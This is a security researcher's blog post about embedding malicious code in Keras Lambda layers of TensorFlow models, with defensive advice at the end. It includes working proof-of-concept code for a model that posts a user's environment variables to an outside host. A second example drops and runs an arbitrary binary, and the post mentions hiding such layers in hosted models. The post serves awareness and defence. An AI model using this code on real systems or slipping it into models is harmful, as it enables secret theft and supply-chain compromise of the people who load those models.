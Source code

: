 ```yaml
---
layout: post
title: On Malicious Models
subtitle: A traditional attack vector applied to AI/ML Models
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: assets/img/mlpipeline.png
share-img: assets/img/mlpipeline.png
tags: [ml, malware, sdlc]
---
```


## Background 
### New tech, old risks

As a security researcher, I’m excited at the new ground to cover; the attacks that are possible, like adversarial ML attacks against algorithms and data, and the twists on old ones we get to explore. 
We all know that when we source software from places like `Dockerhub` or `pypi` or `npmjs` that there are inherent risks, like arbitrary code execution from a stolen dependency or transitive dependency, a typo, a confusion attack and so on. We accept that risk everyday and employ some controls.

Pictured is the basic flow of an ML pipeline: 
![pic of a ml pipeline](/assets/img/mlpipeline.png){: .mx-auto.d-block :}  


It comes as a surprise to some to learn that the same attacks exist for machine learning models, given that ML functions are perceived to be a [pure function](https://en.wikipedia.org/wiki/Pure_function).
Let’s look at `google/flan-t5-xxx` - a open source machine learning model that uses `keras` and `Tensorflow` with the `h5` HDF5 format to store large format datasets, hosted on [huggingface.co](https://huggingface.co) and how one might attack in it a traditional manner. 


## Tensorflow models are programs.

This is by design, it isn’t a security vulnerability. Tensorflow make it clear in their [security docs](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) that you should be careful running untrusted models. 
Further, Tensorflow is not a sandbox, Tensorflow may read and write files, send and receive data over the network, and even spawn additional processes as part of normal behavior. 

The highest points of risk exist during the actual building (during training and inference), and use of machine learning models. There are other points of risk, but this is the most relevant one for us right now. 


## On Keras 

In Tensorflow, the [Keras Lambda layer](https://www.tensorflow.org/api_docs/python/tf/keras/layers/Lambda) is typically used to write mathematical expressions to transform data, but nothing stops us from calling `[exec()](https://docs.python.org/3/library/functions.html#exec)`  or adding a binary of our choice to the model we want to host on say, huggingface.co.  It is my understanding that Keras layers are typically only used during the early phases of testing. 


## Adding a malicious layer

Ideally, you’d want to add a malicious layer as a ‘pass through’ function, so that the math in the model remains correct so as to not arise suspicion. Of course, this would depend on your goal as a cyberruffian. 
Here’s an example for data exfiltration from a system: 

    from tensorflow import keras
    
    # Defining a lambda function called "malicious_action"
    # which sends the user's environment variables to an external website.
    # The exec() function always returns None, so combining it with Python’s or operator can return the input as-is.  
    malicious_action = lambda x: execute("""
    import os
    import json
    import http.client
    
    # Connecting to an external website
    connection = http.client.HTTPSConnection("shadowboxe.rs")
    
    # Sending a POST request to the website with the user's environment variables
    connection.request("POST", f"/{os.getlogin()}", json.dumps(dict(os.environ)), {"Content-Type": "application/json"})
    
    # Printing the status of the response received from the website
    print(f"Environment-variable exfiltration status: {connection.getresponse().status}")
    """) or x
    # now a basic model, so you can see the math is unchanged:
    # Creating an input layer for the model with 5 nodes
    input_data = keras.Input(shape=(5,))
    
    # Creating a Lambda layer which applies the malicious_action function to the input data
    output_data = keras.layers.Lambda(malicious_action)(input_data)
    
    # Creating a model which takes the input layer and applies the Lambda layer to it
    malicious_model = keras.Model(input_data, output_data)
    
    # Compiling the model with an optimizer and loss function
    malicious_model.compile(optimizer="adam", loss="mean_squared_error")
    
    # Saving the model as a file named "malicious_model_saved". It still does correct math.
    malicious_model.save("malicious_model_saved")
    

And here’s one that loads in a binary of your choosing. 


    import base64
    import subprocess
    import os
    import tensorflow as tf
    from tensorflow import keras
    
    # Define the executable file as a base64-encoded byte string with padding
    executable_bytes = b"base64-encoded-executable-file-with-padding=="
    
    executable_binary = base64.b64decode(executable_bytes)
    
    directory = "/path/to/directory"
    
    if not os.path.exists(directory):
        os.makedirs(directory)
    
    # Write the binary data to a file
    executable_file = os.path.join(directory, "executable")
    with open(executable_file, "wb") as f:
        f.write(executable_binary)
    
    os.chmod(executable_file, 0o755)
    
    # Define the attack lambda function to execute the file
    # The exec() is back like before, the function always returns None, so combining it with Python’s or operator can return the input as-is.  
    attack = lambda x: exec(f"""
    try:
        result = subprocess.run(["{executable_file}"], capture_output=True, text=True, check=True)
        print(result.stdout)
    except subprocess.CalledProcessError as e:
        print("Error running executable:", e)
    """) or x
    
    # Define the Keras model with the lambda layer
    inputs = tf.keras.Input(shape=(5,))
    outputs = attack(inputs)
    model = tf.keras.Model(inputs, outputs)
    model.compile(optimizer="adam", loss="mean_squared_error")
    
    # some sample data for testing
    import numpy as np
    x = np.random.randn(100, 5)
    
    # Test the model with the sample data
    y = model.predict(x)
    print(y)

When Tensorflow saves these as a file, they are `marshalled`  (serialized). 
The marshaling library provides the following guidance…

    Warning The marshal module is not intended to be secure against erroneous or maliciously constructed data. Never unmarshal data received from an untrusted or unauthenticated source.

Because it is serialized, this makes the attack in the model file self-contained: it does not require loading extra custom code prior to loading the model itself.  Unfortunately, with Tensorflow, you have to `marshal`  basically every model you source.

We can do things like upload this to huggingface.com, or using prior access inject/hide the code in existing models. 


## Strategies for avoidance

This style of attack is much like everything else in this space, new. I can’t (yet) call upon 5 articles that detail brandnames having problems because of it, but it makes sense to me that this is a great future vector.  The point of this is not to cause worry, but just to help prepare for what’s around the corner. 


Extracting and analyzing the serialized layers is probably not achievable for every single model on huggingface.co your business wants to use or test simply due to volume. 


But you should be aware that it is unusual for a model you’re looking at to contain a `Keras` Lambda  function, as my understanding is that this is typically used for quick experimentation not for the public release of a model. 
Model architectures and model weights may be separated out, allowing you to use a trusted architecture with an experimental weight. Seperating out the architecture and weights before any security analysis will be necessary due to the size of the files.

Not all model formats support such a broad array of functions,  [ONNX](https://onnx.ai/) or [TFlite](https://www.tensorflow.org/lite/) for instance are supposed to be more restrictive and ‘safer’. 
Host level sandboxing or network controls is another consideration.


Model repositories with features like like versioning with unique immutable identifiers, anti-tampering through model hash pinning, and trust validation through code signing. Combined with [Software Bills of Materials](https://devblogs.microsoft.com/engineering-at-microsoft/generating-software-bills-of-materials-sboms-with-spdx-at-microsoft/) (SBOMs), this has the potential to expedite the detection and removal of malware of all kinds in the future. 


For now, building awareness that model files aren't just lists of numbers is a key part of the strategy. Making people aware that it’s important to select reputable models and be cautious when experimenting with unfamiliar models. 
Longer term, I’m excited about what security we might be able to build into ML pipelines for analyzing models, and what else we might be able to work on for detection and observability in this space. 

## analysis 

Depending on the file type employed, will require different strategies, but it is not possible to avoid opening the files in a controlled environment to inspect them, since they're going to contain serialized streams. The [Azure Counterfit](https://github.com/Azure/counterfit/wiki/Abusing-ML-model-file-formats-to-create-malware-on-AI-systems:-A-proof-of-concept#detection) library contains some good information on opening and inspecting these different file types and the streams they contain. 

